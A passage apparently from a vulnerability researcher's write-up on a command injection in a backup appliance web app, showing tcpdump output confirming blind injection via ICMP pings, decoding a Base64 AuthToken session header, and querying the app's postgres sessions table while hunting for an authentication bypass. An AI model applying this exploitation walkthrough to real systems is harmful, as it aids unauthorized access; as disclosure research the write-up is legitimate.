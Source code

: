 ```while true; do ps -eaF;  done | grep -i [A]AAA ```

{% highlight shell  %}
VULNHUB-S2-052:~ csmith$ sudo tcpdump icmp
Password:
tcpdump: data link type PKTAP
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on pktap, link-type PKTAP (Apple DLT_PKTAP), capture size 262144 bytes
14:03:59.333474 IP 10.0.0.220 > 10.0.0.169: ICMP echo request, id 49205, seq 1, length 64
14:04:00.384572 IP 10.0.0.220 > 10.0.0.169: ICMP echo request, id 49205, seq 2, length 64
14:04:01.504839 IP 10.0.0.220 > 10.0.0.169: ICMP echo request, id 49205, seq 3, length 64
14:04:02.332419 IP 10.0.0.220 > 10.0.0.169: ICMP echo request, id 49205, seq 4, length 64
14:04:03.357480 IP 10.0.0.220 > 10.0.0.169: ICMP echo request, id 49205, seq 5, length 64
{% endhighlight %}


This will be a lot more interesting if we could find an auth bypass since this vulnerability requires a valid user session for exploitation. Let's start learning more about how the auth works on this webapp.  I will simply replay the CMDi payload in cURL while modifying values that I suspect to be session credentials one at a time until the PoC breaks and I no longer see incoming ICMP requests. Using this technique it quickly becomes apparent that the AuthToken HTTP request header is the session credential, it also appears to be Base64 encoded.

{% highlight shell  %}
VULNHUB-S2-052:~ csmith$ echo "djA6N2Y3YTNmOTAtYWI3ZS00OTk2LWE0NzYtOTJjNTczYjg3YjFkOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA==" | base64  -D
v0:7f7a3f90-ab7e-4996-a476-92c573b87b1d:1:/usr/bp/logs.dir/gui_root.log:
{% endhighlight %}

Decoding the token looks like we have a session, perhaps a user ID and a log destination. The session string specifically is the actual session credential and is where we will focus first. The app is likely using a datastore to store valid sessions of authenticated users, let's see what we can learn using our SSH access.  Running a netstat we see there is a postgres db running on 5432, let's connect and list all tables to see if we can find a sessions table.

{% highlight shell  %}
[root@VMware-UB ~]# psql -h 127.0.0.1
psql (9.2.5)
Type "help" for help.

bpdb=#  \dt *.*
                              List of relations
       Schema       |                 Name                 | Type  |  Owner   
--------------------+--------------------------------------+-------+----------
 bp                 | alert_runs                           | table | postgres
 bp                 | alert_source                         | table | postgres
 bp                 | alerts                               | table | postgres
 bp                 | application_instances                | table | postgres
 bp                 | application_lookup                   | table | postgres
 bp                 | application_properties               | table | postgres

 bp                 | securesync_guard                     | table | postgres
 bp                 | selection_list_filenames             | table | postgres
 bp                 | selection_lists                      | table | postgres
 bp                 | sessions                             | table | postgres
 bp                 | snmp_config                          | table | postgres
 bp                 | snmp_history                         | table | postgres
 bp                 | source_replication_config            | table | postgres
 bp                 | sql_backups                          | table | postgres

 bpdb=# select * from bp.sessions;
 user_id |                 uuid                 | expiration | remote_src_id | target 
---------+--------------------------------------+------------+---------------+--------
       1 | 7f7a3f90-ab7e-4996-a476-92c573b87b1d | 1512674687 |               | 
```